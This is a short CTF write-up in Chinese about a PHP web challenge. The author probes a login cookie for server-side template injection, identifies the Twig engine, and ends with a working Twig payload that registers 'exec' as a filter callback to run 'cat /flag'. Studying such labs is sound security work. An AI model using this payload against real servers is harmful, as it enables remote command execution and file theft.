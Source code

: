 ![[Pasted image 20221120211116.png]]

---
首页长这样
![[Pasted image 20221120211132.png]]

等等，题目不是stable吗，这里咋变成subtle了QwQ
![[Pasted image 20221120211200.png]]

```php
/flag.php
```
![[Pasted image 20221120211327.png]]
输入`username`上传之后是这样
![[Pasted image 20221120211704.png]]
POST的内容是`username=CrackTC&submit=submit`

同时设置`cookie`
![[Pasted image 20221120211901.png]]

点击`Logout`后实际上是`GET /logout.php`

---
尝试从`cookie`值入手，看看是不是`SSTI`之类的
```php
user={{1-2}}
```
![[Pasted image 20221120212926.png]]

芜湖
```twig
user={{phpinfo()}}
```
![[Pasted image 20221120213341.png]]
括号被过滤掉了好像

可恶，之后居然就没思路了呜呜呜

搜了下网上有个decision tree长这样
![[Pasted image 20221120214710.png]]

先不管咋注入，确定模板引擎先
```twig
user={{7*'7'}}
```
![[Pasted image 20221120214943.png]]
这里回显49，说明是`Twig`
```twig
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```
![[Pasted image 20221120220302.png]]
这个看字面意思好像是先注册一个回调，当获取一个未定义的过滤器时候调用这个回调，并向它传递试图获取的过滤器名字，所以最终就变成了向`exec`传递`cat /flag`，也就获取到了`flag`（推测之前回显`What do you want to do?!`是我没搞懂语法整出报错了，并不是括号被过滤了QAQ）
#Web #HTTP #twig #SSTI #RCE #PHP #Header 